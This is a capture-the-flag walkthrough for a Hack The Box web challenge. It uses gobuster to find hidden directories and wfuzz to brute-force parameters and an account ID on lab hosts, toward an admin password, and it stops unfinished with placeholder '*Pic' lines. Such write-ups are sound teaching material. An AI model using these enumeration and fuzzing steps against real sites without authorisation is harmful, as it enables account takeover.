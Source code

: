 ## Fuzzy
Objective: We have gained access to some infrastructure which we believe is connected to the internal network of our target. We need you to help obtain the administrator password for the website they are currently developing. 

## Tools
gobuster : Gobuster is a tool used to brute-force URIs (directories and files) in web sites.
wfuzz : Wfuzz is a tool designed for bruteforcing Web Applications.  Can work on Get/Post and form parameters.
Burp Suite CE

## Walkthrough
 - First, visited the website homepage to see if anything stood out right away.  The webpage clearly states that it is working on adding additional functionality.  

![](home.png)

 - Used 'gobuster' in Kali to try and enumerate names of hidden directories within the website. <br/> 
  Command: 'gobuster dir -u http://<i></i>hackthebox.eu:30829/ -w /usr/share/wordlists/common.txt' <br/>  
 -dir (Directory mode) <br/> 
  -u url <br/> 
  -w path to desired word list for brute forcing <br/> 
 
 ![](gbhome.png)
 
 - In the output, we can see that gobuster discovered an interesting directory titled "api."  In computing, we know an API (Applicaton Programming Interface) lists many operations that developers can use, along with a description of what they do.  It is a set of definitions and protocols for building and integrating application software.  The homepage of the website also announces that that developers are currently working on login functionality and a password reset tool. We can use gobuster on this directory again and see what we find.  <br/>
   
   Command: gobuster dir -u http://<i></i>hackthebox.eu:30964/api/ -w /usr/share/wordlists/common.txt -t 50 -x php,txt,html,htm <br/>
   *Note: -t 50 (50 threads increases speed) | -x adds file types to search for
   
 ![](gbapi.png)
 
 - Used wfuzz to brute force the action parameter it requires

Command: wfuzz --hh=24 -c -w /usr/share/dirb/wordlists/big.txt http://<i></i>docker.hackthebox.eu:30964/api/action.php?FUZZ=test <br/>
--hh filters character length in the source code<br/>
-c outputs findings in colors<br/>
-w denotes the word list to use<br/>
-FUZZ is the keyword that will be modified by words from our wordlist<br/>

*Pic

Command: wfuzz --hh=24 -c -w /usr/share/dirb/wordlists/big.txt http://<i></i>docker.hackthebox.eu:30964/api/action.php?reset=FUZZ <br/>

After running the command above, the output showed all 20,000+ responses.  I realized I had the character length wrong.  After viewing failed responses in Burp Suite, the content length for those failed responses was actually 27 characters, not 24.  Re-ran the command with --hh=27 to hide failed responses.  Also tried the "--filter" option to do the same thing.<br/>

Command : wfuzz --hh=27 -c -w /usr/share/dirb/wordlists/big.txt http://<i></i>docker.hackthebox.eu:30964/api/action.php?reset=FUZZ <br/>
OR <br/>
Command : wfuzz --filter "c=200 and w!=5" -c -w /usr/share/dirb/wordlists/big.txt http://<i></i>docker.hackthebox.eu:30964/api/action.php?reset=FUZZ <br/>

*Pic
 
 - Now that we have identified a valid 'Account ID' of '20', we can put that into the URL and see what we get.
 
 *Pic



 
 
 
 
 
 
 
 
 

